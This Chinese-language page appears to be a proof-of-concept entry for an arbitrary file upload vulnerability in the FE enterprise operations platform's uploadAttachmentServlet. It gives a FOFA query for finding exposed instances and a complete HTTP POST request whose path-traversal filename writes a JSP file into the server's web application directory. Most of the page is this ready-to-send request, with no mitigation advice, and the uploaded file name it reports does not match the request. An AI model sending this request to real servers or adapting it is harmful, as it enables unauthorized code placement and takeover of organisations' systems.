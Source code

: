 ## 飞企互联-FE企业运营管理平台uploadAttachmentServlet存在任意文件上传漏洞

## fofa
```
app="FE-协作平台"
```

访问`/servlet/uploadAttachmentServlet` 出现下面情况说明存在漏洞

![image](https://github.com/wy876/POC/assets/139549762/f6e18f0b-09de-44bc-a9ca-440d92786ee7)


## poc
```
POST /servlet/uploadAttachmentServlet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Length: 325

------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="uploadFile"; filename="../../../../../jboss/web/fe.war/123123.jsp"
Content-Type: text/plain

<% out.println("123123");%>
------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="json"

{"iq":{"query":{"UpdateType":"mail"}}}
------WebKitFormBoundaryKNt0t4vBe8cX9rZk--
```
![image](https://github.com/wy876/POC/assets/139549762/b2d253ca-80e4-4cdf-92e6-575b7cd8ba7e)


上传文件地址
`http://127.0.0.1/hello321.jsp;`

## 漏洞来源
- https://mp.weixin.qq.com/s/vRiYsWXKr0R0SKwx_aNYRQ
